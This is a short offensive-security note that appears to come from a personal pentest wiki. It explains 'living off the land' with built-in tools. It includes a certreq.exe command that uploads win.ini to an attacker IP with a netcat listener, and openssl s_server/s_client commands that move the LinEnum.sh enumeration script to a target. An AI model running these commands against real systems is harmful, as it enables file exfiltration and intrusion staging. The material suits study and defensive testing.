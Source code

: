 ```yaml
---
title: Living off The Land
tags:
  - file_sharing
  - gtfobins
  - lolbas
created: 2025-02-27
---
```


# Living_off_The_Land

## Description
**"Living off the land"** refers to using pre-installed binaries and tools on a system to conduct malicious actions, minimizing the need for additional malware. This tactic is commonly used by attackers to evade detection.

## Repositories
- https://lolbas-project.github.io
- https://gtfobins.github.io/

## Use Cases
- File transfers (download/upload)
- Command execution
- Bypassing security controls
- Privilege escalation
- Persistence mechanisms
## Examples
### LOLBAS for win
#### Upload CertReq.exe
we can receive the win.ini file via `sudo nc -lvnp 8000` on attackers machine
```powershell
certreq -Post -config http://<attacker_ip>:8000/ c:\windows\win.ini
```
If you get an error when running `certreq.exe`, the version you are using may not contain the `-Post` parameter.

### GTFOBins for linux
`OpenSSL ` is frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."
#### Create cert in attack machine and stand up the server
```bash
# Create cert
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

# Stand up the server
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

#### Download file from target machine
```bash
openssl s_client -connect <attacker_ip>:80 -quiet > LinEnum.sh
```


You can also check `Bitsadmin` and `Certutil`

